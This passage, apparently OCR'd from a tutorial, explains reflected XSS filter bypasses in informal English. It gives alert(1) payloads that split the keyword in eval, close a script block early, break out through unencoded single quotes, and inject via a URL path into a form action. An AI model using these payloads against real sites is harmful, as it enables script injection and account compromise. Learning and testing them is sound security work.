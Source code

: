 So alert word is block try modify alert and try to bypass

    <script>eval("al"%2b"ert(1)")</script>

4. Open source code and enter paylods in urls like <script>alert(1)</script> script reflected in source code like 

       <script>
              var $a= "<script>alert(1)</script>";
        </script>
       
     
 Pylods in JavaScript code bypass using // or by adding some dummy code (var $dummy = ") to close it correctly.

     </script><script>alert(1)</script> 
     
Use This paylods and check the source code 

     <script>
       var $a= " </script><script>alert(1)</script>";
     </script>
                 
Boom bypass simple use dummy code 

5. Open source code and enter paylods in urls like <script>alert(1)</script> script reflected in source code like 

       <script>
         var $a= ' &lt;script&gt;alert(1)&lt;/script&gt;';
       </script>

See Here < slace is encode so try to single slace ' dublee " ; which is not encoded 

Try < like hacker< and check source code 

     'hacker&lt;'; 
     
Look < back slace is encode and try duble code "

     'hacker&quot;';
     
Double code is encoded so try single code '

      'hacker'';
     
Single code is not encoded boom bypass the security
     
Use the paylods like

     ';alert(1);'


6. You have a search funtion and search like asif so asif is reflected, search any thinkgs like asif you redirect urls in /index.php so try to here paylods like urls

       https://example.com/index.php
     
First Thinks and sameculen and use random word like asif so asif is reflected here is vulnerblity like 

     <form action="/index.php/asif" method="POST">
     